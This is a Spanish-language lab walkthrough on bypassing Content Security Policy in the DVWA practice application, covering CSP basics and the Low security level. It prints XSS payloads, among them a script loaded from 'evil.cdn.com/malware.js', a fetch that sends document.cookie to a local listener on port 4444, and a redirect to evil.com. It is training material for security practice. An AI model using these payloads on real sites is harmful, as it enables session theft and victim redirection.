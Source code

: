 # 🛡️ CSP Bypass en DVWA

## ¿Qué es CSP?

**CSP (Content Security Policy)** es una cabecera de seguridad que los navegadores utilizan para limitar qué contenido se puede cargar o ejecutar en una página.

- Sirve como ***medida contra XSS*** y otras inyecciones de contenido.
- Ejemplo de cabecera CSP:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://apis.google.com
```

🔹 Eso significa que solo se pueden cargar scripts desde el mismo dominio (self) o desde **Google APIs**.

👉 En teoría, si hay CSP bien configurado, un XSS debería ser bloqueado.

## ¿Por qué estudiar CSP Bypass?

Porque en entornos modernos, aunque encuentres una inyección de JavaScript, muchas veces está protegido por CSP.

Un pentester debe:

- Revisar qué **directivas CSP** están configuradas.
- Detectar **lagunas o configuraciones débiles**.
- Intentar **saltarse esas restricciones** para ejecutar códido malicioso.

## Vulnerabilidad en DVWA: CSP Bypass

En DVWA, el reto es simular un entorno con CSP mal configurado y mostrar cómo un atacante puede **bypassear esas restricciones**.

### Objetivo del atacante:

- Conseguir ejecutar código JavaScript (como en XSS), a pesar de CSP.
- Robar cookies, redirigir usuarios o mostrar contenido falso.

## Técnicas de Bypass más comunes

En el laboratorio DVWA vamos a practicar estas ideas:

1. **Fuentes externas permitidas:** Si el CSP permite `script-src` desde ciertos dominios (ejemplo: Google, CDNJS...), el atacante puede cargar un script malicioso desde ahí:

```html
<script src="https://evil.cdn.com/malware.js"></script>
```

2. **Uso de inline event handlers:** Si CSP permite `unsafe-inline`, se puede usar:

```html
<img src=x onerror=alert('XSS CSP Bypass')>
```

3. **JSONP endpoints / callback abuse:** A veces un dominio permitido ofrece endpoints que devuelven código ejecutable (`?callback=alert(1)`).

4. **Trucos con `data:` o `blob:`: Algunos CSP mal configurados permiten ejecutar JavaScript desde URLs especiales:

```html
<script src="data:text/javascript,alert(1)"></script>
```

## Cómo explotar en DVWA

En Low / Medium / High vamos a encontrar diferencias:

- **Low:** CSP prácticamente inexistente → Podemos hacer un XSS directo.
- **Medium:** CSP mal configurado, permite ciertas fuentes externas → el objetivo es desubrirlas y usarlas.
- **High:** CSP más restrictivo, pero mal planteado → el bypass se hace con técnicas avanzadas (`data:`, `inline`, o abusando de algún dominio permitido).

## Qué aprenderemos

- Leer e interpretar cabeceras CSP.
- Reconocer errores comunes en la configuración.
- Aprovechar esos errores para ejecutar JavaScript malicioso.
- Documentar los vectores de ataque que funcionaron (y los que no).
- Aprender qué configuraciones evitarían los bypass en entornos reales.

## CSP BYPASS -- LOW

### 🔹 Paso 1: Ver el entorno

1. Iniciamos sesión en DVWA.
2. Ve a **CSP Bypass** en el menú lateral.
3. Asegúrate en DVWA Security que el nivel está en Low.

👉 En este nivel, no hay CSP real o es muy laxo, lo que significa que podemos hacer XSS sin limitaciones.

### 🔹 Paso 2: Prueba de XSS básica

En el campo de entrada escribimos un payload clásico como:

```html
<script>alert('XSS Low')</script>
```

✅ Si aparece la alerta → confirmas que el navegador no bloquea la ejecución de JavaScript.

### 🔹 Paso 3: Prueba con un payload más realista

A continuación, probaremos con payloads que simulen ataques reales:

**Ejemplo 1: Robar cookies**

```html
<script>fetch('http://127.0.0.1:4444/?cookie='+document.cookie)</script>)
```

👉 Esto intentaría enviar las cookies a tu servidor de pruebas en el puerto 4444 (puedes levantar un nc -lvnp 4444 en Kali para ver si llega la petición).

**Ejemplo 2: Redirección maliciosa**

```html
<script>window.location='http://evil.com'</script>
```

👉 Así rediriges a la víctima a un sitio bajo control del atacante.

